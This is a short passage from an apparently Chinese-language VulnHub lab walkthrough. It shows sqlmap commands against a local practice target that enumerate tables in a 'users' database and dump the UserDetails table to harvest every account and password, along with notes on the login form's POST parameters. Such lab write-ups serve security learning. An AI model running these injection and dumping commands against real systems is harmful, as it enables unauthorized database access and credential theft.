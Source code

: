 ```
查看users数据库中有哪些表。
sqlmap -u "http://192.168.15.136/results.php" --data "search=1" -D users --tables
```

![image-20241206184825714](vulnhub靶场实战/image-20241206184825714.png)	

```
导出这个表的所有数据信息，获得所有账户和密码信息。
sqlmap -u "http://192.168.15.136/results.php" --data "search=1" -D users -T UserDetails --dump
```

![image-20241206221737043](vulnhub靶场实战/image-20241206221737043.png)		

```
登录的时候检测出是post请求，并且传递了两个参数，分别是username和password
```

![image-20241206190038990](vulnhub靶场实战/image-20241206190038990.png)	
